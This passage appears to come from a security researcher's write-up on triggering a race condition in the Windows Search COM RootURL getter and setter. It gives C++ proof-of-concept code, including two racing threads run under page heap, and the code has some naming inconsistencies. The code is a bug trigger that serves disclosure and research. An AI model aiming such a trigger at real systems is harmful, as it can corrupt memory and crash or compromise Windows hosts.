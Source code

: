 
Luckily, we were able to compile and test it through the COM based command line source code provided by MSDN(Reference). And We were able to write COM client code that triggers a vulnerable function like this:

```cpp
    int wmain(int argc, wchar_t *argv[]){
    		// Initialize COM library
        CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE);
    		
    		// CoClass Instanciate
    		ISearchRoot *pISearchRoot;
        CoCreateInstance(CLSID_CSearchRoot, NULL, CLSCTX_ALL, IID_PPV_ARGS(&pISearchRoot));
        
    		// Vulnerable function trigger
    		pISearchRoot->put_RootURL(L"Shared RootURL");
        PWSTR pszUrl = NULL;
        HRESULT hr = pSearchRoot->get_RootURL(&pszUrl);
        wcout << L"\t" << pszUrl;
        CoTaskMemFree(pszUrl);
    		
    		// Free COM resource, End
        pISearchRoot->Release();
        CoUninitialize();
    }
```

Since then, triggering the bug is quite simple.

We turned on Gflag.exe's page heap and created two threads : 

The first thread (Thread_01) was programmed to repeatedly write different lengths of the RootURL. The second thread (Thread_02) was programmed to read the written RootURL and return it to the client.


1. Thread_01
```cpp
        DWORD __stdcall test_thread_01(LPVOID param)
        {
        	ISearchManager *pSearchManager = (ISearchManager*)param;
        	wcout << L"First Tread Start!!!." << endl;
        	while (1) {
        		pSearchManager->put_RootURL(L"AA");
        		pSearchManager->put_RootURL(L"AAAAAAAAAA");
        	}
        	return 0;
        }
```

2. Thread_02
```cpp
    DWORD __stdcall test_thread_02(LPVOID param)
    {
    	ISearchRoot *pISearchRoot = (ISearchRoot*)param;
    	PWSTR get_pszUrl;
    	wcout << L"Second Tread Start!!!." << endl;
    	while (1) {
    		pISearchRoot->get_RootURL(&get_pszUrl);
    	}
    	return 0;
    }
```
